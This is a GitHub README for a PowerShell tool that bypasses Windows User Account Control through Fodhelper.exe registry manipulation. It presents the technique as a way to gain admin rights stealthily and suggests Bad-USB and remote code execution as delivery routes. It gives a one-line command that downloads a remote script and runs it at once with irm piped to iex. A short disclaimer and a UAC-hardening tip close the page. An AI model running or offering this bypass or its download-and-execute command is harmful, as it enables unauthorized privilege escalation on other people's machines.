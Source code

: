 # Fodhelper UAC Bypass Implementation

## Overview
This repository contains a PowerShell script that demonstrates a UAC (User Account Control) bypass using **Fodhelper.exe**, a trusted binary in Windows operating systems. By exploiting a feature of Fodhelper.exe, we can elevate privileges without triggering the typical UAC prompt, allowing for seamless execution of elevated commands.

### What is Fodhelper.exe?
**Fodhelper.exe** is a trusted system binary found in Windows operating systems. By default, this executable has administrative privileges and is considered a "trusted binary" in Windows. As a result, **Fodhelper.exe** can be leveraged to gain administrative rights without triggering the standard UAC prompt that usually appears when attempting to run applications as an administrator.

In simpler terms, when running an application that requires administrative privileges, Windows typically prompts the user to confirm the action (UAC prompt). However, **Fodhelper.exe** bypasses this step, allowing for elevated privileges without user intervention. This behavior is a Windows-specific feature that can be exploited through registry manipulation to stealthily execute commands with administrative rights.

### How Does it Work?
The process involves manipulating registry entries related to **Fodhelper.exe** to invoke the binary along with powershell. Since the binary -- parent -- has administrative privileges by default, powershell -- child -- also will have the same privileges. Once triggered, **Fodhelper.exe** will execute the designated commands set on registry.

This technique allows for the execution of commands or scripts that would typically require UAC confirmation, bypassing the prompt altogether. It can be used for automation or stealthy privilege escalation purposes.

### Stripped-Down Script
This repository provides a **stripped-down version of the PowerShell script** that showcases the basic functionality of the Fodhelper UAC bypass technique. The script is simplified to demonstrate that the method works, and you can modify it as needed to suit your purposes. **Please note**: This tool is intended for educational purposes only and should be used responsibly.

---

## Usage

### Tested on Windows 10 & Windows 11

### Prerequisites
- A Windows operating system with UAC enabled (the method works by exploiting **Fodhelper.exe**'s behavior in these environments).
- PowerShell is required for executing the script.

### Running the Script
1. Open a PowerShell session with out administrative privileges.
4. Execute the PowerShell script using the following command:
   ```powershell
   irm "https://raw.githubusercontent.com/CousTov/UACBypass/refs/heads/main/uacGit.ps1" | iex

### Knows Issues:
1. Although rarely, defender does get triggred on some Windows 11 systems. I have not looked into the exact reason, but if I were to guess, it's probably becasuse of the script's behaviour.

### Possible Attack Mediums
1. Bad-USB
2. Manual Execution
3. Remote Code Execution (RCE)

### How to be safe?
You can change the UAC behavior by opening the Control Panel > System and Security > Change User Account Control settings. Move the slider to max.

---

### Legal Disclaimer
This script and method are shared for educational purposes only. Misuse of this information, including unauthorized access to systems or data, is illegal and unethical. Always obtain proper authorization before attempting to use this technique in any environment. The author of this repository assumes no responsibility for any consequences arising from the use of this tool.

